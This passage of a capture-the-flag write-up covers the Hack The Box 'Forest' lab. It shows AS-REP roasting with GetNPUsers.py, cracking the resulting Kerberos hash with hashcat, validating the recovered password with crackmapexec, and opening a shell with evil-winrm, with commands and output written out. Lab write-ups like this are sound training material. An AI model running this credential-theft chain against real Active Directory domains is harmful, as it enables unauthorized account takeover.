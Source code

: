 
### aspreproast
running GetNPUsers.py I am able to obtain the TGT of the user svc-alfresco

```bash
$ GetNPUsers.py -no-pass -usersfile users htb.local/
...<snip>...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4b5ea29c3842acb8465919a662db874f$27c770bf5d0811a77b0525c9d323d98356c526627aa929d89439c119fa8611bf1f6780a27a1a1d4aeadec03bb980a6f91bd3a5d3fde824270400be3a27b8e2c897b957dbf2847e137e4f47fe3288bede141d76eaa60c102671579ebeb7afda66c7114b9c46d6572f58f7029d572e6e3bc66a3fa2e9416ad6b1c7553c57af9715310dd9d57530ee89b2555f8556b657abca479bedcb124aaa5bd980c44f17d98dbe18b0e5bbbca1bdc1852fd60944d114d4a15789ae06ede265600a8091878f0e638301f75f1635262fb416025383411db1ae12e3b9fa318ac6253fe619638266dc7febfb93ad
```

first i identify the hash mode with hashcat

```bash
$ sudo hashcat --identify hash
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```

then I crack the hash using the kerberos 5 mode
```bash
$ sudo hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt
...<snip>...

$krb5asrep$23$svc-alfresco@HTB.LOCAL:4b5ea29c3842acb8465919a662db874f$27c770bf5d0811a77b0525c9d323d98356c526627aa929d89439c119fa8611bf1f6780a27a1a1d4aeadec03bb980a6f91bd3a5d3fde824270400be3a27b8e2c897b957dbf2847e137e4f47fe3288bede141d76eaa60c102671579ebeb7afda66c7114b9c46d6572f58f7029d572e6e3bc66a3fa2e9416ad6b1c7553c57af9715310dd9d57530ee89b2555f8556b657abca479bedcb124aaa5bd980c44f17d98dbe18b0e5bbbca1bdc1852fd60944d114d4a15789ae06ede265600a8091878f0e638301f75f1635262fb416025383411db1ae12e3b9fa318ac6253fe619638266dc7febfb93ad:s3rvice
...<snip>...
```

### access through evil-winrm

with crackmapexec I verify if the credentials are valid for a winrm session and it confirms it is with a pwned message

```bash
$ sudo crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
SMB         10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```


using evil-winrm I am able to obtain a powershell session on the target machine as user svc-alfresco and I am able to read the user flag
